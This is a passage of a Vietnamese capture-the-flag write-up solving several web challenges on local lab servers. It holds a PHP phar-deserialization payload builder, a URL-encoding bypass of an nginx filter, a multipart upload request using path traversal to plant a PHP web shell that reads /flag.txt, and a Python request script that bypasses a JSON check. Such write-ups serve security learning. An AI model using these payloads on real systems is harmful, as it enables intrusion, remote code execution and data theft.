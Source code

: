 Script tạo serialize của LogFile

```php
<?php

class LogFile
{
    public $filename = "phar://upload/winky/aaa.png";
    public $username = "ok";
}
$a = new LogFile();
echo base64_encode(serialize($a));

?>
```

## Web/another_hell_ehc

Bài này có 2 filter ở nginx và trong PHP nhưng đều có 2 cách filter khác nhau

Tuy nhiên chúng ta có thể bypass filter của nginx `if ($args ~ "page=upload")`. Ở đây ta đổi thành URL encode là sẽ vượt qua

`POST /index.php?page=%75pload`

Ta up một file có path traversal lên

```
POST /index.php?page=%75pload HTTP/1.1
Host: 127.0.0.1:49928
Content-Length: 224
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryD2405lXP1DjzWdZo
Cookie: user=Tzo3OiJMb2dGaWxlIjoyOntzOjg6ImZpbGVuYW1lIjtzOjI3OiJwaGFyOi8vdXBsb2FkL3dpbmt5L2FhYS5wbmciO3M6ODoidXNlcm5hbWUiO3M6Mjoib2siO30%3D; PHPSESSID=mblckk7aduamaffbim3vo6jdug

------WebKitFormBoundaryD2405lXP1DjzWdZo
Content-Disposition: form-data; name="avatar"; filename="../../ccc.png.php"
Content-Type: image/png

<?php system("cat /flag.txt");?>
------WebKitFormBoundaryD2405lXP1DjzWdZo--
```

![image](https://hackmd.io/_uploads/ByOzy4-9ge.png)

## web/Sanity Check

Chúng ta có thể dùng dict để bypass như sau

```python
import requests
import json
URL = "http://127.0.0.1:65180/"

data = {
    "data":{}
}

for i in range(1, 513):
    data["data"]['0'*i] = 'Holactf'

session = requests.Session()
user = {
    'username':'bbbb'
}
r = session.post(URL, data=user)
r = session.post(URL + "update", json=data)
```
